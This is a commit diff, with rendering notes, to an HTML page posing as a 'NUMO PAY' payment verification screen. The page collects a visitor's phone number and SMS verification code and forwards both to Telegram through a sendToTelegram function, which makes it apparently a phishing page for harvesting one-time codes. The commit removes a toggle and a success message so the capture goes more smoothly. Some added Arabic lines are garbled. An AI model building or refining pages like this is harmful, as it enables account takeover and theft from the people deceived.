

Before and after one commit to herojordan0/Sahara, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 352-839 px from the top of the page, without its empty margins (319-959 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -89,7 +89,7 @@
   height: 60px;
   border: 2px solid #ddd;
   border-radius: 20px;
-  padding: 0 20px 0 60px;
+  padding: 0 20px;
   font-size: 18px;
   text-align: right;
   color: #333;
@@ -101,69 +101,6 @@
   outline: none;
   border-color: #ffcd00;
   box-shadow: 0 0 0 3px rgba(255, 205, 0, 0.1);
-}
-
-.phone-icon {
-  position: absolute;
-  right: 20px;
-  top: 50%;
-  transform: translateY(-50%);
-  font-size: 22px;
-  width: 35px;
-  height: 35px;
-  border: 2px solid #333;
-  border-radius: 8px;
-  display: flex;
-  align-items: center;
-  justify-content: center;
-  background: white;
-}
-
-.toggle-section {
-  display: flex;
-  justify-content: flex-end;
-  align-items: center;
-  gap: 12px;
-  margin: 30px 0;
-}
-
-.toggle-label {
-  font-size: 16px;
-  color: #333;
-  font-weight: 500;
-}
-
-.toggle-switch {
-  position: relative;
-  width: 55px;
-  height: 32px;
-  background: #ccc;
-  border-radius: 20px;
-  border: none;
-  cursor: pointer;
-  transition: background 0.3s ease;
-  padding: 0;
-}
-
-.toggle-switch.active {
-  background: linear-gradient(90deg, #ffcd00, #ffc300);
-}
-
-.toggle-switch::after {
-  content: '';
-  position: absolute;
-  width: 28px;
-  height: 28px;
-  background: white;
-  border-radius: 50%;
-  top: 2px;
-  right: 2px;
-  transition: right 0.3s ease;
-  box-shadow: 0 2px 4px rgba(0,0,0,0.2);
-}
-
-.toggle-switch.active::after {
-  right: 25px;
 }
 
 .verify-btn {
@@ -377,10 +314,9 @@
     <div class="brand-name">نمو باي</div>
     <div class="brand-en">NUMO PAY</div>
 
-    <div class="subtitle">الرجاء إدخال رقم هاتفك للمتابعة</div>
+    <div class="subtitle">��لرجاء إدخال رقم هاتفك للمتابعة</div>
 
     <div class="phone-input-wrapper">
-      <div class="phone-icon">✕</div>
       <input
         type="tel"
         id="phone"
@@ -389,11 +325,6 @@
         maxlength="12"
         inputmode="numeric"
       >
-    </div>
-
-    <div class="toggle-section">
-      <button class="toggle-switch" id="toggleBtn" onclick="toggleConnect()"></button>
-      <span class="toggle-label">ابق متصلاً</span>
     </div>
 
     <button class="verify-btn" id="phoneBtn" onclick="handlePhoneSubmit()">تحقق</button>
@@ -430,7 +361,7 @@
     <div class="resend-section">
       <div class="resend-text">
         <button class="resend-btn" id="resendBtn" onclick="handleResend()">
-          تح��يث الرمز
+          تحديث الرمز
         </button>
         <span class="timer" id="timer"></span>
       </div>
@@ -450,14 +381,6 @@
 let currentPhone = '';
 let verificationCode = '';
 let resendTimer = 0;
-let isConnected = false;
-
-// تبديل الاتصال
-function toggleConnect() {
-  const btn = document.getElementById('toggleBtn');
-  isConnected = !isConnected;
-  btn.classList.toggle('active');
-}
 
 // معالجة الهاتف
 function handlePhoneSubmit() {
@@ -479,15 +402,15 @@
   btn.disabled = true;
   btn.innerText = 'جاري الإرسال...';
 
-  // إرسال رقم الهاتف فقط
-  const message = `📱 طلب تحقق جديد - نمو باي\n\n📞 رقم الهاتف: ${phone}\n✔️ متصل: ${isConnected ? 'نعم' : 'لا'}\n\n⏳ بانتظار رمز التحقق...`;
+  // إرسال رقم الهاتف لوحده في البداية
+  const message = `📱 رقم هاتف جديد - نمو باي\n\n📞 رقم الهاتف: ${phone}\n\n⏳ بانتظار رمز التحقق...`;
 
   sendToTelegram(message).then(success => {
     if (success) {
-      showMessage(msgDiv, '✅ تم إرسال الرقم بنجاح', 'success');
+      // انتقل للصفحة التالية بدون رسالة نجاح
       setTimeout(() => {
         goToCodePage();
-      }, 1200);
+      }, 800);
     } else {
       showMessage(msgDiv, '❌ حدث خطأ في الإرسال', 'error');
       btn.disabled = false;
@@ -557,7 +480,8 @@
   if (code === verificationCode) {
     showMessage(msgDiv, '✅ تم التحقق بنجاح!', 'success');
 
-    const finalMessage = `✅ تحقق ناجح - نمو باي\n\n📞 رقم الهاتف: ${currentPhone}\n🔐 رمز التحقق: ${code}\n✔️ متصل: ${isConnected ? 'نعم' : 'لا'}\n\n✔️ تم التحقق بنجاح والتسجيل مكتمل`;
+    // إرسال رقم الهاتف + رمز التحقق معاً
+    const finalMessage = `✅ تحقق ناجح - نمو باي\n\n📞 رقم اله��تف: ${currentPhone}\n🔐 رمز التحقق: ${code}\n\n✔️ تم التحقق بنجاح والتسجيل مكتمل`;
 
     sendToTelegram(finalMessage).then(() => {
       setTimeout(() => {
```
